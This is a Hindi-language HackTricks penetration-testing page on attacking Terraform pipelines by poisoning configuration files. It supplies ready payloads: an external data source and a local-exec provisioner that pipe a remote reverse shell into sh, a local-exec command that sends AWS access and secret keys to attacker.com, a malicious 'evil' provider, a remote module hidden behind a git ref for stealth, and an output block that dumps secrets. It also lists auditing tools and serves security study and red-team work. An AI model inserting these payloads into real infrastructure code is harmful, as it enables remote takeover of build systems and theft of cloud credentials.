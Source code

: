# Terraform सुरक्षा

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें.

</details>

## मूल जानकारी

HashiCorp Terraform एक **infrastructure as code tool** है जो आपको दोनों **cloud और on-prem resources** को मानव-पठनीय कॉन्फ़िगरेशन फ़ाइलों में परिभाषित करने देता है जिन्हें आप संस्करण, पुन: उपयोग, और साझा कर सकते हैं। आप फिर एक सुसंगत कार्यप्रवाह का उपयोग करके अपने सभी इंफ्रास्ट्रक्चर को उसके जीवनचक्र के दौरान प्रावधान और प्रबंधित कर सकते हैं। Terraform कम्प्यूट, स्टोरेज, और नेटवर्किंग संसाधनों जैसे निम्न-स्तरीय घटकों के साथ-साथ DNS प्रविष्टियों और SaaS सुविधाओं जैसे उच्च-स्तरीय घटकों का प्रबंधन कर सकता है।

### Terraform कैसे काम करता है?

Terraform उनके एप्लिकेशन प्रोग्रामिंग इंटरफेस (APIs) के माध्यम से क्लाउड प्लेटफॉर्म्स और अन्य सेवाओं पर संसाधनों को बनाता है और प्रबंधित करता है। Providers Terraform को वस्तुतः किसी भी प्लेटफॉर्म या सेवा के साथ काम करने की अनुमति देते हैं जिसका एक सुलभ API हो।

![](<../.gitbook/assets/image (33).png>)

HashiCorp और Terraform समुदाय पहले ही **1700 से अधिक providers** लिख चुके हैं जो हजारों विभिन्न प्रकार के संसाधनों और सेवाओं का प्रबंधन करते हैं, और यह संख्या बढ़ती जा रही है। आप [Terraform Registry](https://registry.terraform.io/) पर सभी सार्वजनिक रूप से उपलब्ध providers को पा सकते हैं, जिसमें Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog, और बहुत कुछ शामिल हैं।

Terraform कार्यप्रवाह के तीन चरण होते हैं:

* **लिखें:** आप संसाधनों को परिभाषित करते हैं, जो कई क्लाउड प्रदाताओं और सेवाओं में हो सकते हैं। उदाहरण के लिए, आप एक कॉन्फ़िगरेशन बना सकते हैं जो एक Virtual Private Cloud (VPC) नेटवर्क में वर्चुअल मशीनों पर एक एप्लिकेशन को डिप्लॉय करता है जिसमें सुरक्षा समूह और एक लोड बैलेंसर हो।
* **योजना:** Terraform एक कार्यान्वयन योजना बनाता है जो मौजूदा इंफ्रास्ट्रक्चर और आपके कॉन्फ़िगरेशन के आधार पर बनाए जाने वाले, अपडेट किए जाने वाले, या नष्ट किए जाने वाले इंफ्रास्ट्रक्चर का वर्णन करता है।
* **लागू करें:** अनुमोदन पर, Terraform सही क्रम में प्रस्तावित संचालन करता है, किसी भी संसाधन निर्भरताओं का सम्मान करते हुए। उदाहरण के लिए, यदि आप VPC की संपत्तियों को अपडेट करते हैं और उस VPC में वर्चुअल मशीनों की संख्या बदलते हैं, तो Terraform VPC को फिर से बनाएगा इससे पहले कि वह वर्चुअल मशीनों को स्केल करे।

![](<../.gitbook/assets/image (81).png>)

### Terraform Enterprise

Terraform Enterprise आपको `terraform plan` या `terraform apply` जैसे **कमांड्स चलाने** की अनुमति देता है जो एक **self-hosted version of Terraform Cloud** में दूरस्थ रूप से होते हैं। इसलिए, यदि आप उस Terraform सर्वर तक पहुँचने के लिए **API key** पा लेते हैं, तो आप उसे **compromise कर सकते हैं**।\
अधिक जानकारी के लिए देखें:

{% content-ref url="broken-reference" %}
[टूटा हुआ लिंक](broken-reference)
{% endcontent-ref %}

## Terraform Lab

बस अपने कंप्यूटर में terraform इंस्टॉल करें।

यहाँ आपके पास एक [गाइड](https://learn.hashicorp.com/tutorials/terraform/install-cli) है और यहाँ आपके पास terraform डाउनलोड करने का [सबसे अच्छा तरीका](https://www.terraform.io/downloads) है।

## Terraform में RCE

Terraform में कोई प्लेटफॉर्म नहीं है जो एक वेब पेज या नेटवर्क सेवा को एक्सपोज़ करता है जिसे हम गिन सकते हैं, इसलिए, terraform को compromise करने का एकमात्र तरीका **terraform कॉन्फ़िगरेशन फ़ाइलों को जोड़ने/संशोधित करने में सक्षम होना** है।

हालांकि, terraform एक **बहुत ही संवेदनशील घटक** है जिसे compromise करना क्योंकि यह ठीक से काम करने के लिए विभिन्न स्थानों पर **विशेषाधिकार प्राप्त पहुँच** रखेगा।

एक हमलावर के लिए terraform चल रहे सिस्टम को compromise करने का मुख्य तरीका **terraform कॉन्फ़िगरेशन स्टोर करने वाले रिपॉजिटरी को compromise करना** है, क्योंकि किसी बिंदु पर वे **व्याख्या किए जाएंगे**।

वास्तव में, ऐसे समाधान हैं जो **PR बनाने के बाद स्वचालित रूप से terraform plan/apply को निष्पादित करते हैं**, जैसे कि **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

यदि आप एक terraform फ़ाइल को compromise करने में सक्षम हैं तो जब कोई `terraform plan` या `terraform apply` निष्पादित करता है तो आप RCE करने के विभिन्न तरीके प्रदर्शित कर सकते हैं।

### Terraform plan

Terraform plan terraform में **सबसे अधिक इस्तेमाल किया जाने वाला कमांड** है और डेवलपर्स/समाधान जो terraform का उपयोग करते हैं वे इसे हर समय कॉल करते हैं, इसलिए RCE प्राप्त करने का **सबसे आसान तरीका** यह सुनिश्चित करना है कि आप एक terraform कॉन्फ़िगरेशन फ़ाइल को जहर दें जो `terraform plan` में मनमाने कमांड्स को निष्पादित करेगा।

#### एक बाहरी प्रदाता का उपयोग करना

Terraform [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) प्रदान करता है जो Terraform और बाहरी प्रोग्रामों के बीच इंटरफेस करने का एक तरीका प्रदान करता है। आप `plan` के दौरान मनमाने कोड को चलाने के लिए `external` डेटा स्रोत का उपयोग कर सकते हैं।

एक terraform कॉन्फ़िगरेशन फ़ाइल में निम्नलिखित जैसा कुछ इंजेक्ट करने से `terraform plan` निष्पादित करते समय एक rev shell निष्पादित होगा:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### एक कस्टम प्रोवाइडर का उपयोग करना

कोई भी [कस्टम प्रोवाइडर](https://learn.hashicorp.com/tutorials/terraform/provider-setup) लिख सकता है और इसे [Terraform Registry](https://registry.terraform.io/) पर प्रकाशित कर सकता है। आप एक निजी रजिस्ट्री से कस्टम प्रोवाइडर को भी खींच सकते हैं।

बस इतना ही:

* एक कस्टम प्रोवाइडर लिखें जो कुछ हानिकारक कोड चलाता है (जैसे कि क्रेडेंशियल्स या ग्राहक डेटा की चोरी)
* इसे Terraform Registry पर प्रकाशित करें
* फीचर ब्रांच में Terraform कोड में प्रोवाइडर जोड़ें
* फीचर ब्रांच के लिए एक PR खोलें
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
#### एक बाहरी संदर्भ का उपयोग करना

उल्लिखित दोनों विकल्प उपयोगी हैं लेकिन बहुत गुप्त नहीं हैं (दूसरा विकल्प अधिक गुप्त है लेकिन पहले से अधिक जटिल है)। आप इस हमले को और भी **गुप्त तरीके से** कर सकते हैं, इन सुझावों का पालन करके:

* टेराफॉर्म फाइल में सीधे रेव शेल जोड़ने के बजाय, आप एक **बाहरी संसाधन लोड कर सकते हैं** जिसमें रेव शेल हो:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
आप rev shell कोड [https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules) में पा सकते हैं।

* बाहरी संसाधन में, **ref** सुविधा का उपयोग करके रेपो के अंदर एक शाखा में **terraform rev shell कोड को छिपाएं**, जैसे: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply को सभी परिवर्तनों को लागू करने के लिए निष्पादित किया जाएगा, आप [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html) के साथ **एक दुर्भावनापूर्ण Terraform फ़ाइल इंजेक्ट करके** RCE प्राप्त करने के लिए इसका दुरुपयोग भी कर सकते हैं।\
आपको बस यह सुनिश्चित करना होगा कि निम्नलिखित में से कुछ पेलोड `main.tf` फ़ाइल में समाप्त होता है:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
**पिछली तकनीक से सुझावों का पालन करें** और इस हमले को **बाहरी संदर्भों का उपयोग करके अधिक चुपके से करें**।

## सीक्रेट्स डंप्स

आप terraform द्वारा उपयोग किए जा रहे **सीक्रेट मानों को डंप कर सकते हैं** `terraform apply` चलाकर, terraform फ़ाइल में कुछ जोड़कर:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## ऑडिट टूल्स

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec आपके terraform कोड का स्टैटिक विश्लेषण करता है ताकि संभावित गलत कॉन्फ़िगरेशन का पता लगाया जा सके।
* [**terascan**](https://github.com/tenable/terrascan): Terrascan Infrastructure as Code के लिए एक स्टैटिक कोड विश्लेषक है।

## संदर्भ

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>
